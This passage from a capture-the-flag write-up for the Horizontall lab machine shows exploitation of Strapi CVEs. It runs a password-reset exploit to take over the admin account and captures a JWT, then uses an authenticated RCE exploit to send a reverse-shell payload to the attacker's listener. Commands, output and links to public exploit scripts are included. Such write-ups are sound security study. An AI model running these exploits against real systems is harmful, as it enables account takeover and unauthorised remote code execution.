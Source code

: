 After obtaining the exploit code for CVE-2019-11818 from [here](https://www.exploit-db.com/exploits/50237), we will have to modify the URL in the exploit code. However, we realize that we are unable to just use any email and be able to login to the admin page. After a few guesses, we managed to guess the admin email (```admin@horizontall.htb```) and managed to reset the password for the user.

```
┌──(kali㉿kali)-[~/Desktop/cve/CVE-2019-18818]
└─$ python3 exploit.py                                                              2 ⚙
[*] strapi version: 3.0.0-beta.17.4
[*] Password reset for user: admin@horizontall.htb
[*] Setting new password
[+] New password 'password' set for user admin@horizontall.htb
```

Capturing the request when authenticate as ```admin@horizontall.htb```, we realize that the endpoint ```/admin/auth/local``` sends the JWT token in its response

![Exposure of JWT token in response](../assets/horizontall/jwt_burp.png)

## Obtaining the user flag

After more research, we also release that this version of Strapi is vulnerable to CVE-2019-19609, which is an authenticated remote code execution. Obtaining the exploitation script from [here](https://github.com/diego-tella/CVE-2019-19609-EXPLOIT/blob/main/exploit.py), we will then be able to obtain a reverse shell in our local machine. (NOTE: The exploit script might fail sometimes, changing the port number or restarting the box might be able to resolve the problem)

```
┌──(kali㉿kali)-[~/Desktop/cve/CVE-2019-19609]
└─$ python3 exploit.py -d api-prod.horizontall.htb -jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMyMDI0MjM2LCJleHAiOjE2MzQ2MTYyMzZ9.Ua4b3mL761BCC3gTwYcpyxA9FyLdTvQqPxS1zuJb2qM -l 10.10.16.7 -p 3000
[+] Exploit for Remote Code Execution for strapi-3.0.0-beta.17.7 and earlier (CVE-2019-19609)
[+] Remember to start listening to the port 3000 to get a reverse shell
[+] Sending payload... Check if you got shell
[+] Payload sent. Response:
<Response [504]>
<html>
<head><title>504 Gateway Time-out</title></head>
<body bgcolor="white">
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

